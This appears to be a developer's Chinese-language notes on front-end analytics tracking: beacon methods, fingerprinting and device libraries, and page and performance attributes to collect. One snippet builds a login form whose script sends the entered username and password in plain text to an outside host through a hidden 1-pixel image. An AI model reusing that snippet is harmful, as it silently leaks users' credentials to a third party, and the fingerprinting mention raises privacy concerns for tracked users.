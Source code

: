 # 前端数据埋点

## 发送请求的方式

1. navigator.sendBeacon(url, data);
2. new Image()
3. ajax

## 可能用到的方式 api

document.visibilityState 监听浏览器

[ua-device](https://github.com/fex-team/ua-device)
[uuid-js](https://www.npmjs.com/package/uuid-js)

fingerprintJS2

<script> function login(name,pass) { var img = document.createElement("img"); img.src = "http://www.chenre.cn/test2.aspx?name="+encodeURI(name)+"&password="+encodeURI(pass); img.style.visibility = "hidden"; img.style.height = "1px"; img.style.width = "1px"; img.onerror = function() { //Finish Code Here alert("Err"); } img.onload = function() { //Finish Code Here alert("Ok") } document.body.appendChild(img); } </script> <body> 用户名：<input name="" id="name" type="text" /> 密码：<input name="" id="password" type="password" /> <input name="" value="登录" type="button" onclick="login(document.getElementById('name').value,document.getElementById('password').value)" /> </body>

## oa 问题

oa 中的应用按照哪种方式，类似微信小程序这种单独的应用

还是 oa 中的一个功能点，这两种是完全不同的实现方式。而且统计的内容也会有区别

比如 pv 页面访问量，启动次数

## 页面属性

```js
//document
domain = document.domain || ""; // 域名
url = document.URL || ""; // 当前 URL 地址
title = document.title || ""; // 当前页面标题
referrer = document.referrer || ""; // 上一个访问页面 URL 地址
// window
sh = window.screen.height || 0; // 屏幕高度
sw = window.screen.width || 0; // 屏幕宽度
// navigator
lang = navigator.language || ""; // 语言
ua = navigator.userAgent || ""; // ua  可提取设备属性

//performance

let timing = performance.timing,
  start = timing.navigationStart,
  firstPaintTime = 0,
  domRenderTime = 0,
  loadTime = 0;

firstPaintTime = timing.responseStart - start; //首屏时间
domRenderTime = timing.domContentLoadedEventEnd - start; //dom渲染完成时间
loadTime = timing.loadEventEnd - start; //页面onload时间

// click点击 web节点

id = document.getElementById() || ""; // 元素id
className = document.getElementByClassName() //元素class
... 元素属性

```
